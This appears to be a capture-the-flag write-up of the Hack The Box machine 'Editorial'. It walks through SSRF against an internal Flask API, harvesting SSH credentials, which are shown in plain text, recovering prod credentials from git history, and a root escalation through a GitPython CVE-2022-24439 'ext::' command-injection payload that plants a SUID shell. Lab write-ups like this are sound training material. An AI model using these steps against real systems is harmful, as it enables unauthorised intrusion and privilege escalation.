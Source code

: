 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

- **Exploits Used:**  
  - SSRF in image upload to hit internal Flask API  
  - Internal API enumeration for dev SSH creds  
  - Git repo recovery for prod SSH creds  
  - CVE‑2022‑24439 GitPython “ext::” RCE via sudo  

**Open Ports:**  
- [SSH](SSH) 22/tcp  
- [HTTP](HTTP) 80/tcp  

**Tools:**  
nmap, ffuf, feroxbuster, Burp Suite, curl, git‑dumper, git, unzip/zip, Python 3 (requests), sshpass  

---

## Recon 🔍  
```bash
# Scan for services
nmap -p- --min-rate 10000 10.10.11.20
nmap -p 22,80 -sCV       10.10.11.20

# Fuzz internal ports via SSRF endpoint
ffuf -u http://editorial.htb/upload-cover \
     -request ssrf.request \
     -w <(seq 0 65535) -ac
```

---

## Shell as dev 🐚  
1. **Exploit SSRF** on `/upload-cover` by supplying `http://127.0.0.1:5000` → retrieve JSON from internal API.  
2. **Enumerate endpoints**, hit `/api/latest/metadata/messages/authors` → leak:  
   ```
   Username: dev
   Password: dev080217_devAPI!@
   ```  
3. **SSH in** as dev:  
   ```bash
   sshpass -p 'dev080217_devAPI!@' ssh dev@editorial.htb
   cat user.txt
   ```

---

## Shell as prod 👤  
1. **Recover deleted apps repo** in `~/apps/.git`:  
   ```bash
   cd ~/apps
   git checkout .
   ```  
2. **Inspect git history** (`git log`) and diff `app_api/app.py` → find prod creds:  
   ```
   Username: prod
   Password: 080217_Producti0n_2023!@
   ```  
3. **SSH in** as prod:  
   ```bash
   sshpass -p '080217_Producti0n_2023!@' ssh prod@editorial.htb
   ```

---

## Shell as root 👑  
1. **Check sudo:**  
   ```bash
   sudo -l
   # Allows: python3 clone_prod_change.py *
   ```  
2. **Abuse GitPython RCE (CVE‑2022‑24439):**  
   ```bash
   sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py \
     'ext::sh -c "cp /bin/sh /tmp/rootshell; chmod 4755 /tmp/rootshell"'
   /tmp/rootshell -p
   whoami   # → root
   cat /root/root.txt
   ```

---

## Actions Learned 🎓  
- SSRF pivot to internal API  
- Automated API enumeration for creds  
- Git repo forensic recovery  
- GitPython protocol extension RCE via sudo  
- Crafting SUID shell via RCE  

---

## References 🔗  
- [CVE‑2022‑24439 — GitPython protocol.ext.allow exploit](https://nvd.nist.gov/vuln/detail/CVE-2022-24439)  
- Flask SSRF patterns in image‑upload handlers  
- GitPython `clone_from(..., multi_options=["-c protocol.ext.allow=always"])` behavior